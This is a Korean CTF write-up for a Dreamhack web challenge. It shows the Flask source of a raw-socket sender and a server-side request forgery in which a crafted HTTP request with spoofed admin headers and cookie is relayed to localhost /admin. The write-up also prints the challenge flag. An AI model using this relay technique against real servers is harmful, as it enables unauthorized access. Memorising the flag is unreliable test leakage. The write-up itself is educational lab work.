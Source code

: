 
문제는 **Raw Socket Sender가 구현된 서비스입니다. 요구하는 조건을 맞춰 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.** 이다.

먼저 코드를 봤다.

```python
#!/usr/bin/python3

from flask import Flask, request, render_template, make_response, redirect, url_for
import  socket

app  = Flask(__name__)

try:
	FLAG  =  open('./flag.txt', 'r').read()
except:
	FLAG  =  '[**FLAG**]'

@app.route('/')
def index():
	return render_template('index.html')

@app.route('/socket', methods=['GET', 'POST'])
def login():
	if request.method ==  'GET':
		return render_template('socket.html')
	elif request.method ==  'POST':
		host  = request.form.get('host')
		port  = request.form.get('port', type=int)
		data  = request.form.get('data')

		retData  =  ""
		try:
			with  socket.socket(socket.AF_INET, socket.SOCK_STREAM) as  s:
		s.settimeout(3)
		s.connect((host, port))
		s.sendall(data.encode())
		while  True:
			tmpData  =  s.recv(1024)
			retData  +=  tmpData.decode()
			if  not  tmpData: break

	except  Exception  as  e:
		return render_template('socket_result.html', data=e)

	return render_template('socket_result.html', data=retData)

  
@app.route('/admin', methods=['POST'])
def admin():
	if request.remote_addr !=  '127.0.0.1':
		return  'Only localhost'

	if request.headers.get('User-Agent') !=  'Admin Browser':
		return  'Only Admin Browser'

	if request.headers.get('DreamhackUser') !=  'admin':
		return  'Only Admin'

	if request.cookies.get('admin') !=  'true':
		return  'Admin Cookie'

	if request.form.get('userid') !=  'admin':
		return  'Admin id'

	return  FLAG

app.run(host='0.0.0.0', port=8000)
```

주요 path는 3가지가 있다.  
(1) <img src="1.jpg">  
(2) <img src="2.jpg">  

1. / 페이지
index.html 를 render 함

2. /socket 페이지
POST를 통해 **host, port, data** 를 소켓 프로그래밍을 통해 (host, port)로 data를 전송

3. /admin 페이지
현재 상황이 주어진 조건에 해당하는지 확인함(사이트에는 나타나지 않음)  

우선 Burp Suite를 통해 다음과 같이 테스트 값을 입력한 후 POST 형식의 request를 확인했다.  

<img src="3.jpg">  

```http
POST /socket HTTP/1.1
Host: host1.dreamhack.games:24098
Content-Length: 39
Cache-Control: max-age=0
Accept-Language: ko-KR,ko;q=0.9
Origin: http://host1.dreamhack.games:24098
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:24098/socket
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

host=127.0.0.1&port=8000&data=test+data
```

위와 같은 요청을 하면, 다음과 같이 timed out이 발생했다. 결론적으로 socket 프로그래밍 결과를 보여준다.  

<img src="4.jpg">  

즉, 위의 있는 request 형식에서 조건에만 맞게 수정하면 될 것이다.
(https://www.geeksforgeeks.org/http-headers-cookie/)
(https://velog.io/@sangmin7648/%EC%98%A4%EB%8A%98%EC%9D%98-%EB%B0%B0%EC%9B%80-045)
(https://developer.mozilla.org/ko/docs/Web/HTTP/Methods/POST)  

```http
POST /socket HTTP/1.1
Host: host1.dreamhack.games:24098
Content-Length: 12
Cache-Control: max-age=0
Accept-Language: ko-KR,ko;q=0.9
Origin: http://host1.dreamhack.games:24098
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Admin Browser
Cookie: admin=true
DreamhackUser: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:24098/socket
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

userid=admin
```

다음과 같은 request를 data에 넣어서 보내면, admin에서 작동할 것이다.(참고로 Content-Length 는 "userid=admin"의 길이(12)를 넣어야 한다.)  

<img src="6.jpg">  

위와 같은 결과가 나왔다.  
무슨 이유 때문에 이렇게 나왔지?  

```http
POST /admin HTTP/1.1
Host: host1.dreamhack.games:24098
Content-Length: 12
Cache-Control: max-age=0
Accept-Language: ko-KR,ko;q=0.9
Origin: http://host1.dreamhack.games:24098
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Admin Browser
Cookie: admin=true
DreamhackUser: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:24098/socket
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

userid=admin
```

메소드(POST) 다음에 **/admin** 이 들어가야 한다.(path가 /admin 이므로)  
그것만 수정하면 아래와 같은 결과가 나온다.  

<img src="7.jpg">  

정답은 **DH{9bb7177b6267ff7288e24e06d8dd6df5}** 이다.